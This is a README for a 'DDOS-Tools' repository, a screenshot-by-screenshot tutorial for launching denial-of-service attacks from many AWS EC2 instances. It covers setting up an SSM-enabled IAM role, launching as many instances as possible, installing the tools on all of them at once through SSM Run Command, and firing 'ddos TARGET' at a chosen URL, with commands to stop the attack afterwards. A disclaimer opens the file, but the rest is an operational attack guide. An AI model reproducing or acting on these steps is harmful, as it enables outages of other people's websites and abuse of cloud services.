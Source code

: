 # Disclaimer
YOU SHOULD NOT USE THIS SOFTWARE TO HARM OTHERS. THE USER IS THE ONLY ONE RESPONSIBLE FOR HOW THIS TOOL IS USED. THE DEVELOPER HOLDS NO LEGAL LIABILITY FOR HOW YOU USE THIS SOFTWARE. CHECK THE LICENSE.
# DDOS-Tools
Grouping of most of the ddos tools that act on a single machine and do not interact with botnets, just initialize a certain type of request to a certain host

The tool depends upon including the tools and a single script to install them and a single script to run them

All of the DDOS various tools will be included in the parent folder

The parent folder will contain a setup.py file to install all of the various tools and install
a runnable command line interface to all of those tools (hopefully not just run them all :) )


# Tutorial

1. Sign up for an aws account https://portal.aws.amazon.com/billing/signup#/start
2. Sign in to the aws management console https://signin.aws.amazon.com/signin?client_id=signup&redirect_uri=https%3A%2F%2Fportal.aws.amazon.com%2Fbilling%2Fsignup%2Fresume&page=resolve
3. Create an IAM role that has access to the AWS-SSM (Simple Systems Manager) functionalities
AWS Management Console: Choose IAM from Security, Identity and Compliance
![Alt text](docs/images/management_console_choose_IAM.png?raw=true "AWS Management Console: Choose IAM from Security, Identity and Compliance")

AWS Management Console: Choose roles from the dashboard on the left
![Alt text](docs/images/management_console_IAM_choose_roles.png?raw=true "AWS Management Console: Choose roles from the dashboard on the left")

IAM roles tab: Choose Create Role
![Alt text](docs/images/IAM_roles_choose_create_role.png?raw=true "IAM roles tab: Choose Create Role")

Create Roles tab: Choose AWS Service as the type of trusted entity and EC2 as the service that will use this role
![Alt text](docs/images/create_role_choose_aws_service_and_ec2.png?raw=true "Create Roles tab: Choose AWS Service as the type of trusted entity and EC2 as the service that will use this role")

Attach Permissions Policy page : Choose AmazonSSMFullAcces and hit Next:Review
![Alt text](docs/images/attach_permissions_policy_choose_AmazonSSMFullAcces.png?raw=true "Attach Permissions Policy page : Choose AmazonSSMFullAcces and hit Next:Review")

Role Review page : Type in a name for the role, try to make it as descriptive as possible such as AWSSSMRole hit Next
![Alt text](docs/images/role_review_type_in_name.png?raw=true "Role Review page : Type in a name for the role, try to make it as descriptive as possible such as AWSSSMRole hit Next")

You will be redirected to the IAM home page, where you can see your newly created role
4. Create an S3 bucket to view the full output of executing a command

AWS Management Console: Choose EC2 from Compute Services
![Alt text](docs/images/management_console_choose_s3.png?raw=true "AWS Management Console: Choose EC2 from Compute Services")

S3 Management Console: Click on create bucket which will pop up a settings window for the new bucket
![Alt text](docs/images/s3_create_bucket.png?raw=true "S3 Management Console: Click on create bucket which will pop up a settings window for the new bucket")

S3 pop up: type in the name for the new bucket -mostly the region will be defaulted but check that it is the same region your instances are initialized in- and then click next
![Alt text](docs/images/s3_type_name.png?raw=true "S3 pop up: type in the name for the new bucket -mostly the region will be defaulted but check that it is the same region your instances are initialized in- and then click next")

S3 pop up: choose the same settings in the image which are the default
![Alt text](docs/images/s3_bucket_properties.png?raw=true "S3 pop up: choose the same settings in the image which are the default")

S3 pop up:  choose the same settings in the image which are the default
![Alt text](docs/images/s3_set_permissions.png?raw=true "S3 pop up:  choose the same settings in the image which are the default")
 
S3 pop up: review settings and click on Create bucket
![Alt text](docs/images/s3_bucket_review.png?raw=true "S3 pop up: review settings and click on Create bucket")

now it should be created and available in the table of buckets you own

5. Create the required number of EC2 instances, with the desired ec2 instance type, and choosing a proper IAM Role

6. Navigate to the services tab at the top and click on it for the drop down menu and choose EC2 from Compute

AWS Management Console: Choose EC2 from Compute Services
![Alt text](docs/images/management_console_choose_ec2.png?raw=true "AWS Management Console: Choose EC2 from Compute Services")

EC2 Dashboard : Choose Launch Instances
![Alt text](docs/images/ec2_dashboard_launch_instances.png?raw=true "EC2 Dashboard : Choose Launch Instances")

Launch Instances flow, choose an AMI : Choose Ubuntu Server 16.04 LTS HVM SSD Volume Type - ami-51537029 
![Alt text](docs/images/launch_instances_choose_an_ami.png?raw=true "Launch Instances flow, choose an AMI : Choose Ubuntu Server 16.04 LTS HVM SSD Volume Type - ami-51537029 ")

Launch Instances flow, choose an instance type : Choose t2.micro
![Alt text](docs/images/launch_instances_choose_type.png?raw=true "Launch Instances flow, choose an instance type : Choose t2.micro")

Launch Instances flow, configure instance details: type in the number of instances you need, make it as big as possible, and most importantly choose the IAM role you created from the IAM role choice in the middle of the page, click next
![Alt text](docs/images/launch_instances_configure_instance_details.png?raw=true "Launch Instances flow, configure instance details: type in the number of instances you need, make it as big as possible, and most importantly choose the IAM role you created from the IAM role choice in the middle of the page, click next")

Launch Instances flow, choose storage: type in the number of gigabytes you need, make it as big as possible, click next
![Alt text](docs/images/launch_instances_choose_storage.png?raw=true "Launch Instances flow, choose storage: type in the number of gigabytes you need, make it as big as possible, click next")

Launch Instances flow, set group page: click on Add Tag
![Alt text](docs/images/launch_instances_set_group_tags.png?raw=true "Launch Instances flow, set group page: click on Add Tag")

Launch Instances flow, set group page: Put in a key and a value such as the ones in the image, not necessarily the same, we do not really need the tags, it is just to differentiate your normal instances from the ones that are tasked with the DDOS, if you have had other instances then click on Review an Launch
![Alt text](docs/images/launch_instances_group_tag_ex.png?raw=true "Launch Instances flow, set group page: Put in a key and a value such as the ones in the image, not necessarily the same, we do not really need the tags, it is just to differentiate your normal instances from the ones that are tasked with the DDOS, if you have had other instances then click on Review an Launch")

Launch Instances flow, review and launch page: check you have not missed anything and click launch
![Alt text](docs/images/launch_instances_review_and_launch.png?raw=true "Launch Instances flow, review and launch page: check you have not missed anything and click launch")

Launch Instances flow, create key pair pop up: type in a name for the key pair .pem file and then hit download key pair and keep the file safely stored it is the only way to ssh into your instances, we do not need to ssh in this tutorial but just in case you need to perform a one lines in an instance in interactive mode, and them launch instances will be available to click on, click on it
![Alt text](docs/images/launch_instances_create_key_pair.png?raw=true "Launch Instances flow, create key pair pop up: type in a name for the key pair .pem file and then hit download key pair and keep the file safely stored it is the only way to ssh into your instances, we do not need to ssh in this tutorial but just in case you need to perform a one lines in an instance in interactive mode, and them launch instances will be available to click on, click on it")

7. Installing the tools

AWS Management Console: From Management Tools Choose Systems Manager and click on it
![Alt text](docs/images/management_console_choose_systems_manager.png?raw=true "AWS Management Console: From Management Tools Choose Systems Manager and click on it")

SSM preview: From the tab on the left scroll down and choose Actions : Run Command
![Alt text](docs/images/ssm.png?raw=true "SSM preview: From the tab on the left scroll down and choose Actions : Run Command")

SSM Run Command: in the right corner click on Run Command
![Alt text](docs/images/ssm_run_command.png?raw=true "SSM Run Command: in the right corner click on Run Command")

SSM Run Command: in the right corner click on the right arrow -angle bracket- till you hit the 3rd page of options and choose AWS-RunShellScript then scroll down till Commands txt box show up
![Alt text](docs/images/run_command_choose_aws_runshellscript.png?raw=true "SSM Run Command: in the right corner click on the right arrow -angle bracket- till you hit the 3rd page of options and choose AWS-RunShellScript then scroll down till Commands txt box show up")

SSM Run Command: the txt that should be in this txt box is below 
![Alt text](docs/images/run_command_command_txt_box.png?raw=true "SSM Run Command: the txt that should be in this txt box is below ")

```
rm -rf DDOS-Tools
git clone --recursive https://github.com/ahmednofal/DDOS-Tools.git
cd DDOS-Tools
bash configure
```

8. Copy Those lines into the Commands txt box then Scroll down

SSM Run Command: Choose all of your instances manually or through the tag you created if you have other instances than the ones you created using this tutorial
![Alt text](docs/images/run_command_targets_manually.png?raw=true "SSM Run Command: Choose all of your instances manually or through the tag you created if you have other instances than the ones you created using this tutorial")

SSM Run Command: Type in the group tag key and value that you choose during the instances installation steps
![Alt text](docs/images/run_command_targets_use_tags.png?raw=true "SSM Run Command: Type in the group tag key and value that you choose during the instances installation steps")

9. Scroll down to output options and check "Enable writing to an S3 bucket"

And choose the S3 bucket you previously created from the drop down menu -click on it and the name should show up, if it does not refresh the page and reapply all the steps again-

Scroll Down and hit run

10. This should install all the software needed for the attack

SSM Run Command: Click on the command id to review output, this shows only one id, you will have n ids for n instances you included in the run, choose any of them they should be in the exact same replicated state
![Alt text](docs/images/run_command_success.png?raw=true "SSM Run Command: Click on the command id to review output, this shows only one id, you will have n ids for n instances you included in the run, choose any of them they should be in the exact same replicated state")

SSM Run Command: Click on output
![Alt text](docs/images/run_command_success_output.png?raw=true "SSM Run Command: Click on output")

SSM Run Command: Click on Amazon S3 Hyper linked in blue
![Alt text](docs/images/run_command_success_output_click_AmazonS3.png?raw=true "SSM Run Command: Click on Amazon S3 Hyper linked in blue")

SSM Run Command: Click on the name of your bucket
![Alt text](docs/images/docs/images/run_command_s3_bucket.png?raw=true "SSM Run Command: Click on the name of your bucket")

SSM Run Command: Click on the output tab
![Alt text](docs/images/run_command_output_and_errors.png?raw=true "SSM Run Command: Click on the output tab")

SSM Run Command: Click on 
![Alt text](docs/images/run_command_stdout_open.png?raw=true "SSM Run Command: Click on "Open" tab")

It will open a txt file in the browser with all of the shell output in the instance you chose (which is just a reflection of all other instances)

It will not open if you do not allow pop ups from amazon in the browser

11. Executing the ddos attack

Redo steps 7 to 10 except for the code portion that should be in the Commands txt box replace it with 

```
ddos TARGET
```

Where TARGET is the url of the target (not IP) and including the portocol so you have to include http:// or https:// for instance at the beginning 

And then continue with the rest of the steps



12. Killing the attack

Redo steps 7 to 10 except for the code portion that should be in the Commands txt box replace it with 

```
killddos
killpyddoz
killsyner
```


